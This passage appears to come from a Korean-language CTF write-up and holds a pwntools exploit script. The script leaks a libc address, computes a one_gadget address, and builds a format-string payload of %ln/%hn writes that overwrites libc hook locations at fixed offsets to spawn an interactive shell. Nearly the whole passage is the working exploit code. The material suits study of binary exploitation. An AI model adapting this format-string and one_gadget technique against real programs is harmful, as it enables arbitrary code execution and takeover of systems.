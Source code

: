 ```python
    libc_start=int(p.recv(14),16)
    #log.info(hex(libc.symbols['__libc_start_main']))
    libc_base=libc_start-0x20830
    log.info(hex(libc_start))
    log.info(hex(libc_base))
    
    one_gadget=libc_base+0x4526a
    one_gadget_low=one_gadget&0xffff
    one_gadget_middle = (one_gadget >> 16) & 0xffff
    one_gadget_high = (one_gadget >> 32) &0xffff
    
    log.info("one_gadget::"+hex(one_gadget))
    log.info("one_gadget_low::"+hex(one_gadget_low))
    log.info("one_gadget_mid::"+hex(one_gadget_middle))
    log.info("one_gadget_high::"+hex(one_gadget_high))
    
    low = one_gadget_low
    
    if one_gadget_middle > one_gadget_low:
        middle = one_gadget_middle - one_gadget_low
    else:
        middle = 0x10000 + one_gadget_middle - one_gadget_low
    
    if one_gadget_high > one_gadget_middle:
        high = one_gadget_high - one_gadget_middle
    else:
        high = 0x10000 + one_gadget_high - one_gadget_middle
    
    low=low-14
    middle=middle-3
    high=high-3
    
    payload2 = "%17$ln"+"AA"+"%5c%18$ln"+"A"*7
    payload2 += "%"+str(low)+"c%19$hn"+"A"*3
    payload2 += "%"+str(middle)+"c%20$hn"+"A"*3
    payload2 += "%"+str(high)+"c%21$hn"+"A"*3
    payload2 += p64(libc_base+0x3C5C48)+p64(libc_base+0x3C5C40)
    payload2 += p64(libc_base+0x3C67A8)+p64(libc_base+0x3C67A8+2)+p64(libc_base+0x3C67A8+4)
    pause()
    
    p.sendline(payload2)
    sleep(2)
    p.interactive()
```


    

### 4. 몰랐던 개념

---
